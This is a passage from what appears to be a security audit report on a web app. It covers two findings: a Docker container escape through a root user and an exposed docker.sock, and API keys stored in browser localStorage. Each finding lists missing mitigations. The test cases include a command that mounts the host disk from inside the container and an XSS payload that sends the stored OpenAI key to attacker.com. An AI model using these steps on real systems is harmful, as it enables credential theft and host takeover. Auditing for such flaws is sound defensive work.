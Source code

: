 **Missing Mitigations:**
- User namespace remapping
- Read-only filesystems
- Resource limits

**Preconditions:**
- Attacker needs container access
- Requires unpatched CVEs

**Source Analysis:**
```dockerfile
FROM node:16-buster # Outdated base
USER root # Runs as privileged
VOLUME /var/run/docker.sock # Exposes host control
```

**Test Case:**
```bash
docker exec -it vulnerable_container sh
mkdir /host_mount
mount /dev/sda1 /host_mount # Attempt host filesystem access
```

## 7. Sensitive Data Exposure in Client-Side Storage (High Severity)
**Description:**
API keys stored unencrypted in browser localStorage:
1. LLM API credentials accessible via XSS
2. Persistent storage without encryption
3. No key rotation mechanism

**Impact:**
Compromise of paid API credentials, financial loss

**Current Mitigations:**
None

**Missing Mitigations:**
- Secure HTTP-only cookie storage
- Backend proxy for API calls
- Key rotation mechanism

**Preconditions:**
- Existence of any XSS vector
- User interacts with compromised UI

**Source Analysis:**
```javascript
// frontend/src/storage.js
localStorage.setItem('OPENAI_API_KEY', key);  // Unprotected storage
```

**Test Case:**
```javascript
// XSS payload:
fetch('https://attacker.com/log?key='+localStorage.OPENAI_API_KEY)
```
